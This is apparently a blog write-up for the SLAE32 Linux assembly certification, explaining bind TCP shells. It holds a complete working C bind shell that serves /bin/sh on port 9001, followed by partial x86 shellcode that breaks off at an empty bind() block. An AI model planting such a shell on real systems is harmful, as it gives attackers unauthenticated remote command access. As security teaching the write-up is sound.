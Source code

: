 ```yaml
---
title: SLAE32 - Assignment#1 [Bind TCP Shell]
author: bigb0ss
date: 2020-12-12 13:26:00 +0800
categories: [SLAE32]
tags: [slae32, assembly, x86, Bind TCP Shell]
image: /assets/img/post/slae32/slae32.png
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1542

# Assignement #1 
* Create a Shell_Bind_TCP shellcode
	- Binds to a port
	- Execs Shell on incoming connection

* Port number should be easily configurable


# What is a Bind Shell?
Bind TCP opens up a port on the victim system. If an attacker could exploit a vulnerability on the victim system, she can implant a bind shell and connect to it from the remote attaking box. However, due to a firewall and detection controls, reverse TCP shell is preferrable over bind TCP shell thesedays.

![image](/assets/img/post/slae32/assignment1/01.png)


# Socket Programming
Before creating our Bind TCP Shell in shellcode, we need to understand the Socket Programming. 

> **NOTE**: Socket programming is a way of connecting two nodes on a network to communicate with each other. 

![image](/assets/img/post/slae32/assignment1/02.png)

To better understand the Bind TCP, let's create a Bind TCP Shell in a higher programming language. We will use `C`:

```c++
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
	int sockfd, acceptfd;
	int port = 9001;

	struct sockaddr_in addr;
	addr.sin_family = AF_INET; 
	addr.sin_port = htons(port);
	addr.sin_addr.s_addr = INADDR_ANY;

	// 1) Socket Creation (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// 2) Bind() Syscall (sys_bind 2)
	bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));
	
	// 3) Listen() Syscall (sys_listen 4)
	listen(sockfd, 0);

	// 4) Accetpt() Syscall (sys_accept 5)
	acceptfd = accept(sockfd, NULL, NULL);

	// 5) Dup2() Syscall
	dup2(acceptfd, 0);	// stdin
	dup2(acceptfd, 1);	// stdout
	dup2(acceptfd, 2);	// stderr

	// 6) Execve() Syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this: 

```console
gcc bind-tcp-shell.c -o bind-tcp-shell
```

The compiled binary can successfully open up a bind shell, and we can connect to it via `nc`.

![image](/assets/img/post/slae32/assignment1/03.png)


# Shellcode 

For our Bind TCP Shell shellcode, we need to use all those `syscalls`:
* 1) Socket - Initiating the socket connection
* 2) Bind - The `bind()` assigns the address specified by addr to the socket referred to by the file descriptor `sockfd`. 
* 3) Listen - Listen for the incoming connection
* 4) Accept - The  `accept()`  system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET)
* 5) Dup2 - Manages `stdin`, `stdout` and `stderr` for the file descriptor. This is necessary for input and output redirection. 
* 6) Execve - Execute a command (`/bin/sh` to spawn a shell)

## Syscall + Function Calls

First, we need to collect arguemnts for `socketcall()` as well as other `syscalls`. 

> **NOTE**: socketcall()  is  a  common  kernel  entry point for the socket system calls.

By querying `/usr/include/i386-linux-gnu/asm/unistd_32.h`, we can collect the following args for the `syscalls`:

```console
#define __NR_socketcall	102 --> Hex: 0x66
#define __NR_bind		361 --> Hex: 0x169
#define __NR_listen		363 --> Hex: 0x16b
#define __NR_accept4	364 --> Hex: 0x16c
#define __NR_dup2		63  --> Hex: 0x3f
#define __NR_execve		11  --> Hex: 0xb
```

Additionally, by looking at `/usr/include/linux/net.h`, we can also obtain args for the function calls:

```console
root@kali:~/Documents/SLAE32/Exam/Assignement1# cat /usr/include/linux/net.h | grep SYS
#define SYS_SOCKET		1		/* sys_socket(2)			*/
#define SYS_BIND		2		/* sys_bind(2)				*/
#define SYS_CONNECT		3		/* sys_connect(2)			*/
#define SYS_LISTEN		4		/* sys_listen(2)			*/
#define SYS_ACCEPT		5		/* sys_accept(2)			*/
#define SYS_GETSOCKNAME	6		/* sys_getsockname(2)		*/
#define SYS_GETPEERNAME	7		/* sys_getpeername(2)		*/
#define SYS_SOCKETPAIR	8		/* sys_socketpair(2)		*/
#define SYS_SEND		9		/* sys_send(2)				*/
#define SYS_RECV		10		/* sys_recv(2)				*/
#define SYS_SENDTO		11		/* sys_sendto(2)			*/
#define SYS_RECVFROM	12		/* sys_recvfrom(2)			*/
#define SYS_SHUTDOWN	13		/* sys_shutdown(2)			*/
#define SYS_SETSOCKOPT	14		/* sys_setsockopt(2)		*/
#define SYS_GETSOCKOPT	15		/* sys_getsockopt(2)		*/
#define SYS_SENDMSG		16		/* sys_sendmsg(2)			*/
#define SYS_RECVMSG		17		/* sys_recvmsg(2)			*/
#define SYS_ACCEPT4		18		/* sys_accept4(2)			*/
#define SYS_RECVMMSG	19		/* sys_recvmmsg(2)			*/
#define SYS_SENDMMSG	20		/* sys_sendmmsg(2)			*/
```

## Initialization

First, let's zero out some of the registers we are going to use:

```ASM
global _start

section		.text
_start:

xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

## Socket()

Let's create the `socket()` shellcode:

```ASM
; 1) Socket Creation
; sockfd = socket(AF_INET, SOCK_STREAM, 0);

mov al, 0x66		; #define __NR_socketcall 102	--> Hex: 0x66
mov bl, 0x1			; #define SYS_SOCKET 1
push edx			; int protocol = 0
push ebx			; int SOCK_STREAM = 1
push 0x2			; int AF_INET = 2
mov ecx, esp		; Move stack pointer to ECX
int 0x80			; Execute
mov edi, eax		; Save the socketcall file descriptor to EDI
```

## Bind()

Let's create the `bind()` shellcode:

```ASM
; 2) Bind
; bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));
; 	struct sockaddr_in addr;
;	addr.sin_family = AF_INET; 
;	addr.sin_port = htons(port);
;	addr.sin_addr.s_addr = INADDR_ANY;


```








